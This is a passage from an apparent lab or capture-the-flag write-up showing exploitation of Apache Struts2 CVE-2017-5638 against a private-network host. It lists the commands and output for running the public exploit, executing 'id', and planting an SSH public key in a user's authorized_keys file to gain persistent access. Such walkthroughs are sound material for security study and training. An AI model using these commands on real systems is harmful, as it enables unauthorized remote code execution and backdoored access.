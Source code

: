 ```bash
Apache Struts < 1.3.10 / < 2.3.16.2 - ClassLoader Manipulation Remote Code Execution (Metasploit)             | multiple/remote/41690.rb
Apache Struts2 2.0.0 < 2.3.15 - Prefixed Parameters OGNL Injection                                            | multiple/webapps/44583.txt
-------------------------------------------------------------------------------------------------------------- ---------------------------------
```

We copy the exploit to our current directory.

```bash
root@kali:~$ searchsploit -m linux/webapps/41570.py
```

## Exploitation
### Remote Code Execution 

Apache Struts 2 versions 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 remote code execution exploit that provides a reverse shell.

We run the script adding as parameter the URL and the id command.

```bash
root@kali:~$ python 41570.py http://192.168.56.104:8080/struts2_2.3.15.1-showcase/showcase.action id
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: id

uid=1000(ta) gid=1000(ta) groups=1000(ta),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

The command was successfully executed, we can try to get a reverse shell, but I prefer to access via SSH.

```bash
root@kali:~$ python 41570.py http://192.168.56.104:8080/struts2_2.3.15.1-showcase/showcase.action "mkdir /home/ta/.ssh"
```

We generate the SSH key pair.

```bash
root@kali:~$ ssh-keygen -P "ta123" -f id_rsa
```

We create the authorized_keys file with the the public key inside the ssh directory in the ta's home directory.

```bash
root@kali:~$ python 41570.py http://192.168.56.104:8080/struts2_2.3.15.1-showcase/showcase.action "echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDXzybvylP8i
qZivblk2Ezss0lYM4TsTMscRB1Hy9cy2r6Z4lXUv1Z5Y2cEuha/9YQ6O1w51f3iCBtWQUi+feKvlqhL6q8FEsF3ju4cdiD87rMPOHia1M4MYJoU4CEcN8Y8u1IN35Uvn+NBz+rad2ESwlbvsa3dBotTHWGvLR140HE1k
qzrejm2z42DSE356qkY2I4+2xLoHtfQiIAVPl5p9YGcjwDs4NWeYFRZ8RbMYnW7pVD6Bj+hQedOn9uPM+wm1dUh+ZiEwgGFSeeKWvfR7N0LQ69+YhK0gAPY//6NiK300UFpGWW6D+RNyAq9+3zovqini3XPfnfLrhHtG
vMbuN4Yzp9+g8N7Pz8nWXBLo/V3Yufxw99j7y3Rwj4LUVrGqWi7HUkQFSK/kIzUU81wJ54x+JrtToBuXIFl57fXz23NfBLsJMIIjYykTmbUGaTDWpmm2fRoCMdGQmr3EASDpvzuZSNsvVr5wqCSQ0CrJ3+NM3sKEqwZR
ItFaad4mhE= > /home/ta/.ssh/authorized_keys"
```
